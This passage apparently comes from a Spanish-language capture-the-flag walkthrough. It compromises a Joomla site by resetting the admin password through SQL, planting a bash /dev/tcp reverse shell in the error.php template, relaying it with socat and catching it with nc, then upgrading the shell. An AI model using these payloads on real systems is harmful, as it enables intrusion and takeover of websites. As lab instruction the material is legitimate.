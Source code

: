Con la misma técnica modificamos la contraseña

* USE joomla; update joomla_users set password='md5hash' where username='site_admin';

## Joomla Exploitation

Ahora tenemos acceso a la administración de Joomla

1. Modificamos una template (por ejemplo error.php) para añadir una revershell

````
system("bash -c 'bash -i >& /dev/tcp/<ip1>/1111 0>&1'");
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240421202858.png)
2. Con la herramienta Socat redirigimos el trafico que se dirige a 'ip1'

````
./socat TCP-LSITEN:1111, fork TCP:<ipa>:443
````

3. Nos ponemos en escucha por el puerto 443 para recibir la Shell

````
nc -nlvp 443
````

\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
export SHELL=bash
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

Un usuario del sistema tiene la contraseña en .creds.txt en base64
